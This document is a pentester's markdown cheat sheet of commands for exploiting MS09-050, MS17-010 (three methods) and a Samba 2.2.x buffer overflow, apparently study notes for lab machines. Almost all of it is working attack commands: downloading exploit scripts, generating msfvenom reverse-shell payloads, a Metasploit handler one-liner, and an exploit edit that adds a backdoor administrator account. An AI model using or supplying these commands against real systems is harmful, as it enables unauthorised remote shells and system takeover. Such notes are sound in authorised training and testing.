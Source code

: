 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### MS09-50
```bash - kali
wget https://raw.githubusercontent.com/ohnozzy/Exploit/master/MS09_050.py
```

```python - kal
pip2.7 install pysmb
```

```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 EXITFUNC=thread -f c
```

---
1 - Liner
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/shell/reverse_tcp;set EXITFUNC thread;set LHOST $Kali;set LPORT 443;run;"
```

---

```bash - kali
sudo msfdb run
```

```bash - kali
use exploit/multi/handler
```

```bash - kali
set payload windows/shell/reverse_tcp
```

```bash - kali
set EXITFUNC thread
```

```bash - kali
run
```

```bash - kali
pip install pysmb -t .
```

```bash - kali
python MS09_050.py $TARGET
```

```bash - kali
python3 ms09-050.py $TARGET
```

#### MS17-010 method 1

https://medium.com/@simonsulyma/hack-the-box-legacy-penetration-testing-without-metasploit-44b628fe870f

```bash - kali
git clone https://github.com/helviojunior/MS17-010 && cd MS17-010/ && python checker.py $TARGET
```

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe > ms17–010.exe
```

![[rlwrap]]

```bash - kali
python send_and_execute.py $TARGET ms17–010.exe
```

#### MS17-010 method 2 (RDP)

```bash - kali
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```

```bash - kali
searchsploit -m 42315
```

Edit 42315, replacing the block of code from 916 - 920 with the following:

```python - kali
	print('Sending exploit')
	service_exec(conn, r"cmd /c net user bob pass /add")
	service_exec(conn, r"cmd /c net localgroup administrators bob /add")
```

```bash - kali
python 42315.py $TARGET
```

```bash - kali
rdesktop -a 16 -z $TARGET -u bob -p pass
```

#### MS17-010 method 3
```bash - kali
searchsploit -m 42031
```

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f raw EXITFUNC=thread -o exploit.bin
```

![[rlwrap]]

```bash - kali
python 42031.py $TARGET exploit.bin
```

#### Samba 2.2.x - Remote Buffer Overflow
```bash - kali
searchsploit -m 7
```

```bash - kali
chmod +x 7.pl
```

```bash - kali
./7.pl -t linx86 -H $KALI -h $TARGET
```


